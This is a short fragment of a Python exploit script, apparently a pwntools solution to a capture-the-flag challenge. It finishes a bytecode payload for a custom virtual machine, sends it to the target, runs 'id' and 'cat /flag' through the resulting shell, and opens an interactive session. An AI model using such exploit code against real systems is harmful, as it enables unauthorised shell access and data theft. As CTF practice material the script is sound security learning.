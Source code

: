 ```python
code += p32(0)
code += o["GSTORE"]
code += p32(1)

# Ending program
code += o["HALT"]

code = code.ljust(128*4, b"\x00")
p.send(code)
p.sendline("id")
if args["REMOTE"]:
    p.sendline("cat /flag")

p.interactive()
```

